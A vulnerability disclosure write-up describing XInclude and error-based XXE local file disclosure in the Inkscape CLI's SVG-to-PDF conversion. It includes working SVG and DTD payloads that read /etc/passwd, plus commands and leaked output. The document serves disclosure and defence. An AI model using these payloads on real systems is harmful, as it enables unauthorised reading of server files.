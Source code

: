 # XML Parsing Issues in Inkscape CLI

We recently came across an application using the [Inkscape CLI](https://wiki.inkscape.org/wiki/Using_the_Command_Line) to convert generated SVG input text to a PDF file. We had a limited injection on the SVG input and chose to perform a rapid review of the latest Inkscape version (v1.2-alpha1 at time of writing), where we discovered two separate issues related to XML parsing, allowing for arbitrary file disclosure.

This was reported to the developers of inkscape, in which they insisted this was by design, and calling applications need to ensure they sanitise input correctly to avoid issues.

This short write-up provides two ways to leverage SVG injection to achieve LFI in Inkscape CLI.

## Preface

Inkscape is an opensource and cross-platform vector graphics editor, offering a broad set of features. Inkscape uses the standardized SVG file format as its main format, which is supported by many other applications including web browsers. It can import and export various file formats, including SVG, AI, EPS, PDF, PS and PNG. It has a comprehensive feature set, a simple interface, multi-lingual support and is designed to be extensible; users can customize Inkscape's functionality with add-ons. 

## XInclude Local File Disclosure 

### Description

Inkscape added support for XML XInclude in Merge Request [1150](https://gitlab.com/inkscape/inkscape/-/merge_requests/1150) in late 2019, that introduced a local file disclosure vulnerability.

If an attacker can inject a `xi:include` XML tag into the input SVG, it will include the contents of the referenced local file in the output data of a generated PDF.

### Impact 

The Inkscape CLI binary exposes the contents of local files on the system, which is included in the output file.

### Proof-of-Concept 

```
<svg width="1000" height="20px" xmlns="http://www.w3.org/2000/svg" xmlns:xi="http://www.w3.org/2001/XInclude" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
	<text font-size="5" x="0" y="10">
		<xi:include parse="text" href="file:///etc/passwd"/>
	</text>
</svg>
```

Current Version (Inkscape 1.2-alpha1)
`inkscape test.svg --export-type=pdf --export-filename=output.pdf`

Utilities such as `pdftotext` can be used to fetch the PDF stream data:

```
$ pdftotext test.pdf out.txt ; head -2 out.txt
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
```

## Error-based XXE (Local DTD)

### Description 

There exists an error-based XML XXE vulnerability, that allows arbitrary file contents to be outputted to stderr. 

Successful exploitation requires the ability to control the start of the SVG input text and knowledge of a vulnerable local DTD file on the underlying system (see [reference](https://www.gosecure.net/blog/2019/07/16/automating-local-dtd-discovery-for-xxe-exploitation/)).

### Impact

The Inkscape CLI binary exposes the contents of local files, however is limited to stderr output.

### Proof-of-Concept 

```
<!DOCTYPE foo [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/fontconfig/fonts.dtd">
    <!ENTITY % constant '
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
    '>
    %local_dtd;
]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
        <text font-size="16" x="0" y="16">test</text>
</svg>
```

Older Versions
`inkscape test.svg --export-pdf=output.pdf`

Current Version
`inkscape test.svg --export-type=pdf --export-filename=output.pdf`

```
file:///usr/share/xml/fontconfig/fonts.dtd:118: parser error : ContentDecl : Name or '(' expected
<!ELEMENT patelt (%constant;)">

Entity: line 2:
        <!ENTITY % file SYSTEM "file:///etc/passwd">
        ^
file:///usr/share/xml/fontconfig/fonts.dtd:118: parser error : expected '>'
<!ELEMENT patelt (%constant;)">

Entity: line 2:
        <!ENTITY % file SYSTEM "file:///etc/passwd">
        ^
Entity: line 4: parser error : Invalid URI: file:///nonexistant/root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
```

## Discovered
* March 2022, Victor, elttam

## References
* https://gitlab.com/inkscape/inkscape/-/merge_requests/1150
* https://www.gosecure.net/blog/2019/07/16/automating-local-dtd-discovery-for-xxe-exploitation/
* https://www.xpdfreader.com/pdftotext-man.html
